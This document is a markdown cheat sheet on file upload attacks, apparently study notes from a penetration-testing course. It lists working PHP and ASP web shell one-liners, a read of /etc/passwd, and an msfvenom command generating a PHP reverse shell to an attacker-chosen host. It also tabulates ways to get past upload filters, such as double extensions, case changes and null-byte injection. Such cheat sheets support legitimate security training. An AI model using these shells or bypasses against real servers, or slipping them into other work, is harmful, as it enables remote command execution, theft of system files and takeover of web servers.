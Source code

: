 # File Upload Attacks

## Web Shells
| Web Shell | Description |
|-----------|-------------|
| `<?php echo file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| PHP Web Shell | PHP Web Shell |
| PHP Reverse Shell | PHP Reverse Shell |
| Web/Reverse Shells | List of Web Shells and Reverse Shells |

## Bypasses
| Command | Description |
|---------|-------------|
| **Client-Side Bypass** | |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** | |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| PHP Extensions | List of PHP Extensions |
| ASP Extensions | List of ASP Extensions |
| Web Extensions | List of Web Extensions |
| **Whitelist Bypass** | |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20, %0a, %00, %0d0a, /, .\, ., …` | Character Injection - Before/After Extension |
| **Content/Type Bypass** | |
| Content-Types | List of All Content-Types |
| File Signatures | List of File Signatures/Magic Bytes |

## Limited Uploads
| Potential Attack | File Types |
|------------------|------------|
| XSS | HTML, JS, SVG, GIF |
| XXE/SSRF | XML, SVG, PDF, PPT, DOC |
| DoS | ZIP, JPG, PNG |